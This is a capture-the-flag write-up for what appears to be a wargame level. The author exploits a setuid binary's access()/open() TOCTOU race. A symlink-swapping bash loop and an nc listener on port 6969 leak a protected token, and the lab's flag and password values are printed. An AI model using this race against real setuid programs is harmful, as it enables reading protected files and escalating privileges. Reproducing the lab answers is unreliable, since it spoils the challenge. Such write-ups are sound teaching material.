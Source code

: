 ## FLAG: `s5cAJpM8ev6XHw998pRWG728z`

## We have an executable and a token
> ls -l
```
    total 16
    -rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
    -rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

## Testing level10 exec
> ./level10
```
    ./level10 file host
            sends file to host if you have access to it
```
## asking for a `file` and an `host`
> ./level10 token 127.0.0.1
```
    You don't have access to token
```
> echo "Hey" > /tmp/10_test && ./level10 /tmp/10_test 127.0.0.1
```
    Connecting to localhost:6969 .. Unable to connect to host 127.0.0.1
```

> ltrace ./level10 /tmp/10_test 127.0.0.1
```
    __libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>
    access("/tmp/test10", 4)                                                                     = 0
    printf("Connecting to %s:6969 .. ", "localhost")                                             = 32
    fflush(0xb7fd1a20Connecting to localhost:6969 .. )                                                                           = 0
    socket(2, 1, 0)                                                                              = 3
    inet_addr("localhost")                                                                       = 0xffffffff
    htons(6969, 1, 0, 0, 0)                                                                      = 14619
    connect(3, 0xbffff71c, 16, 0, 0)                                                             = -1
    printf("Unable to connect to host %s\n", "localhost"Unable to connect to host localhost
    )                                        = 36
    exit(1 <unfinished ...>
    +++ exited (status 1) +++
```
## Nothing really interesting

## We'll use `nm -u` for more information
> nm -u level10
```
    w _Jv_RegisterClasses
    U __errno_location@@GLIBC_2.0
    w __gmon_start__
    U __libc_start_main@@GLIBC_2.0
    U __stack_chk_fail@@GLIBC_2.4
    U access@@GLIBC_2.0
    U connect@@GLIBC_2.0
    U exit@@GLIBC_2.0
    U fflush@@GLIBC_2.0
    U htons@@GLIBC_2.0
    U inet_addr@@GLIBC_2.0
    U open@@GLIBC_2.0
    U printf@@GLIBC_2.0
    U puts@@GLIBC_2.0
    U read@@GLIBC_2.0
    U socket@@GLIBC_2.0
    U strerror@@GLIBC_2.0
    U write@@GLIBC_2.0
```
## The program use `access` and `open`

## What's in `access` man ?
> man access
```
    Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a secu‐
    rity hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.  For this  reason,
    the  use  of  this  system  call  should be avoided.  (In the example just described, a safer alternative would be to temporarily switch the
    process's effective user ID to the real ID and then call open(2).)
```
## This is exactly the case for this program
## And this is called a Time-of-check to time-of-use bug (TOCTOU)

------------------------------------------------

## We create a script which create a file switching its symbolic link with `token` and an accessible one
> vi /tmp/10_toctou.sh
```
#!/bin/bash

echo " ( Test 10 ) " > /tmp/10_linked

while true
do
        ln -sf /tmp/10_linked /tmp/10_symlink
        ln -sf /home/user/level10/token /tmp/10_symlink
done
```
## Make it executable
> chmod +x /tmp/10_toctou.sh
## And launch it in background
> /tmp/10_toctou.sh &
## We listen to port 6969
> nc -lk 6969 | grep -v ".*( )*." &
## And execute the executabel in loop with the created symbolic link file
> while true; do ./level10 /tmp/10_symlink 127.0.0.1; done &>/dev/null
```
    woupa2yuojeeaaed06riuj63c
```

------------------------------------------------

## Kill processes because we're CLEAN
> ps 
> kill PID

------------------------------------------------

> su flag10
> getflag
```
    feulo4b72j7edeahuete3no7c
```
